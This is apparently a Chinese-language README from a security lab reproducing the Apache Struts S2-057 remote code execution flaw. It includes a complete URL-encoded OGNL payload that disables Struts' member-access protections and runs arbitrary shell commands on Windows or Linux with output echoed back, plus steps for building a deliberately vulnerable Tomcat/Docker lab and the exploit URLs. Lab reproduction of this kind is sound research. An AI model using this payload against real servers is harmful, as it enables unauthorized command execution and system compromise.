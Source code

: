 # S2-057本地测试与复现

FN@悬镜安全实验室

## POC

测试发现结合S2-045构造的POC堪称完美，linux和windows通用，应该可执行任意命令，返回格式舒服且无乱码，当然是根据各位大佬的poc自行测试构造的，适用于Struts 2.3.34，而Struts 2.5.16的poc还没测试成功，等大佬们的poc吧

```
$%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B'struts.valueStack'%5D.context).(%23cr%3D%23ct%5B'com.opensymphony.xwork2.ActionContext.container'%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23cmd%3D'whoami').(%23iswin%3D(%40java.lang.System%40getProperty('os.name').toLowerCase().contains('win'))).(%23cmds%3D(%23iswin%3F%7B'cmd.exe','/c',%23cmd%7D%3A%7B'/bin/bash','-c',%23cmd%7D)).(%23p%3Dnew%20java.lang.ProcessBuilder(%23cmds)).(%23p.redirectErrorStream(true)).(%23process%3D%23p.start()).(%23ros%3D(%40org.apache.struts2.ServletActionContext%40getResponse().getOutputStream())).(%40org.apache.commons.io.IOUtils%40copy(%23process.getInputStream(),%23ros)).(%23ros.flush())%7D
```

注意：/不能编码为%2f，这个坑了好久，tomcat的原因

## 漏洞环境

war包：

https://archive.apache.org/dist/struts/2.5.16/struts-2.5.16-all.zip

https://archive.apache.org/dist/struts/2.3.34/struts-2.3.34-all.zip 

其中的struts2-showcase.war，当然这里也提供了对应的war包

- windows

tomcat+war即可

修改对应的\WEB-INF\classes\struts-actionchaining.xml

原：

```
<struts>
	<package name="actionchaining" extends="struts-default" namespace="/actionchaining">
		<action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
			<result type="chain">actionChain2</result>		
		</action>
		<action name="actionChain2" class="org.apache.struts2.showcase.actionchaining.ActionChain2">
			<result type="chain">actionChain3</result>
		</action>
		<action name="actionChain3" class="org.apache.struts2.showcase.actionchaining.ActionChain3">
			<result>/WEB-INF/actionchaining/actionChainingResult.jsp</result>
		</action>
	</package>
</struts>
```

修改为：

```
<struts>
	<package name="actionchaining" extends="struts-default">
		<action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
			<result type="redirectAction">
				<param name = "actionName">register2</param>
			</result>
		</action>
		<action name="actionChain2" class="org.apache.struts2.showcase.actionchaining.ActionChain2">
			<result type="chain">xxx</result>
		</action>
		<action name="actionChain3" class="org.apache.struts2.showcase.actionchaining.ActionChain3">
			<result type="postback">
				<param name = "actionName">register2</param>
			</result>
		</action>
	</package>
</struts>
```

访问：

http://localhost:8080/S2-057-2-5-16/${(111+111)}/actionChain1.action

http://localhost:8080/S2-057-2-3-34/${(111+111)}/actionChain1.action

跳转并计算表达式，漏洞环境搭建成功

- linux

使用p牛的vulhub，当然需要修改配置。

https://github.com/vulhub/vulhub/tree/master/struts2/s2-015

需要修改Dockerfile和拷贝相应war文件和xml文件

```
COPY S2-057-2-3-34.war /usr/local/tomcat/webapps/S2-057-2-3-34.war
COPY S2-057-2-5-16.war /usr/local/tomcat/webapps/S2-057-2-5-16.war
COPY vul.xml /usr/local/tomcat/webapps/struts-actionchaining.xml
```

启动：docker-compose up -d

然后需要进入docker

docker ps

docker exec -i -t [CONTAINER_ID] /bin/bash

docker内执行：

```
cd /usr/local/tomcat/webapps
cp struts-actionchaining.xml S2-057-2-3-34/WEB-INF/classes/struts-actionchaining.xml
#cp struts-actionchaining.xml S2-057-2-3-34/WEB-INF/src/java/struts-actionchaining.xml
cp struts-actionchaining.xml S2-057-2-5-16/WEB-INF/classes/struts-actionchaining.xml
#cp struts-actionchaining.xml S2-057-2-5-16/WEB-INF/src/java/struts-actionchaining.xml
cd /usr/local/tomcat/bin
./shutdown.sh
```

会自动退出docker，然后再次docker-compose up -d，不能docker-compose down，不然得重新进入docker配置

访问

http://IP:8080/S2-057-2-3-34/$%7B(111+111)%7D/actionChain1.action

http://IP:8080/S2-057-2-5-16/$%7B(111+111)%7D/actionChain1.action

跳转并计算表达式说明搭建成功

注意：

如果需要重新创建容器，需要先删除相应的镜像

docker images

docker rmi image_id


## 漏洞复现

只提供了windows下的部分截图，linux也复现成功了的，不过未再提供截图

1.Redirect action

http://HOST/S2-057-2-3-34/POC/actionChain1.action

表达式验证在返回头Location里，poc命令执行回显在body里

![image](https://github.com/Fnzer0/S2-057-poc/blob/master/Redirect-dir.jpg)

2.Chain action

http://HOST/S2-057-2-3-34/POC/actionChain2.action

无回显，无跳转，应该是xml中该action配置的原因，命令执行成功，回显在body里

![image](https://github.com/Fnzer0/S2-057-poc/blob/master/Chain-dir.jpg)

3.Postback action

http://HOST/S2-057-2-3-34/POC/actionChain3.action

验证和回显都在body，form的形式

![image](https://github.com/Fnzer0/S2-057-poc/blob/master/Postback-echo.jpg)

## 参考

[S2-057 远程命令执行漏洞复现](https://mp.weixin.qq.com/s/H6bLuXS8qCVRh1mSgAkdXQ)

[S2-057技术分析](https://mp.weixin.qq.com/s?__biz=MzU0NzYzMzU0Mw==&mid=2247483698&idx=1&sn=1b79bb4bd7d5b1173043d0c5c8335320)

[【Struts2-代码执行漏洞分析系列】S2-057](https://xz.aliyun.com/t/2618)

https://github.com/jas502n/St2-057

https://lgtm.com/blog/apache_struts_CVE-2018-11776

## TODO

1. Struts 2.5.16 poc
2. 其他版本测试
3. 通用检测脚本，发现有的脚本只检测了Redirect action的情况，看大佬们的介绍应该还存在其他情况
4. 实际测试
